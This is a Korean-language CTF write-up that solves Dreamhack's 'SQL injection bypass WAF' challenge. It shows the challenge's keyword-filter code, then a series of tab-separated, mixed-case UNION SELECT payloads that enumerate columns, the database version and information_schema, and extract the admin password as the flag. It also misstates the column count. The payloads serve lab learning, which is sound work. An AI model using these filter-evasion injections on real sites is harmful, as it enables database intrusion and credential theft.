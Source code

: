 ```yaml
---
layout: single
title: "Dreamhack [sql injection bypass WAF] 문제풀이"
categories: Security
toc: true
author_profile: false
sidebar:
  nav: "docs"
---
```


## Dreamhack_by_pass_sqli
Dreamhack 해커들의 놀이터 SQL Injection bypass WAF 풀기

## Black Box 방식으로 공격해보기
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a19047d6-ca96-4e23-b911-396ea5c9dca9)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a9db8751-a5ce-47e8-8a17-a7e4846b26d1)

- sql 문법이 막히는 것을 보아 필터링이 되는 것 같다

## 코드 분석하기.

```
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
```
위 코드를 보면 sql 특적 키워드들이 값으로 들어오면 필터링 돼서 WAF로 인해 막힌다는 메시지가 출력된다.
그렇다면 소문자를 대문자로 바꿔 컬럼 갯수를 알아내는 공격을 해보자.

- 컬럼 수 확인하기.
```
'	oRder	by	1#
'	oRder	by	2#
'	oRder	by	3#
'	oRder	by	4#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/cc963842-806d-4f2f-b366-b01a3cb4df73)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/148149c7-dd6b-4643-aa78-4152a8b4c720)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/9a198866-a0f5-4892-af3f-c4caf7078997)
 
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/24837302-278d-4e81-b9c6-c0e31cdbfc7f) ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/3ad6428f-4124-4a14-a4bc-2cfe66958196)

'	oRder	by	4# 에서 에러가 발생하는것으로 보아 컬럼의 갯수는 1개이다.

## 컬럼특성 및 DB version 확인하기.
```
'	Union	Select	@@version,null,null#
'	Union	Select	null,@@version,null#
```
- 위 구문으로 2번째 컬럼이 문자열이라는 것을 알아 냈다. 또한 DB 버전도 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/62084023-65c8-4edd-8eff-d695daeeef5b)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/5a292eba-c7ad-41fb-949f-ce037602a4bd)

## 컬럼명 확인하기
- 테이블 명이 user라고 나와 있으므로 그걸 이용해 데이터베이스 information_schema.columns 테이블에 있는 값으로 user테이블의 컬럼명을 알아보자.
```
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	1#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	2#
```
- 위 sqli 공격으로 3개의 컬럼명을 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/0fc9cc40-d60c-4c2d-80c5-1185d978a839)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/b55d4c81-6948-478a-8c2d-830ca2b503fc)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/c6a24639-6871-44a6-86c9-98f0b2065d2a)

## flag 값 확인하기.
- 우리는 컬럼명, 컬럼 갯수를 알아냈으므로 그 정보를 이용해 flag 값을 알아낼것이다. flag는 uid가 admin인 행의 upw값이다.
```
'	Union	Select	null,upw,null	From	user	Where	uid=concat('ad','min')#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/285d849b-11e1-46b6-af6c-83abea29c17b)


- <a href= "https://github.com/hanmin0512/dreamhack_by_pass_sqli"> DreamHack sqli bypass  github 보러가기</a>
